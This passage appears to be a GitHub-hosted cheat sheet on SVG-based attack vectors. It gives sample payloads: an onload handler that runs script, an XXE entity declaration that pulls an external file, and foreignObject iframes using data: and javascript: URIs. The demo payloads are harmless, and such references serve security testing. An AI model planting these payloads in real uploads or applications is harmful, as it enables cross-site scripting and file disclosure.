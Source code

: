 ``` xml
<svg width="100%" height="100%" viewBox="0 0 100 100"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo" o="foo"/>
  <image xlink:href="https://example.com/foo.jpg" height="200" width="200" onload="document.getElementById('foo').setAttribute('fill', 'blue');"/>
</svg>
```

You can also bind handlers to animations and some other events. Read the SVG spec.

# XXE

Because SVG is XML, it can also have XXEs:

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
  <!-- an internal subset can be embedded here -->
  <!ENTITY xxe SYSTEM "https://example.com/foo.txt">
]>
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <text x="20" y="35">My &xxe;</text>
</svg>
```

# foreignObject

The `<foreignObject>` tag is insane. It can be used to include arbitrary (X)HTML in an SVG.

For example, to include an iframe:

``` xml
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
    <iframe xmlns="http://www.w3.org/1999/xhtml" src="http://example.com/"/>
  </foreignObject>
</svg>
```

If you don't have network access (e.g. sandbox) you can put a data URI or a javascript uri as the target of the iframe:

``` xml
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
k   <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
  </foreignObject>
</svg>
```
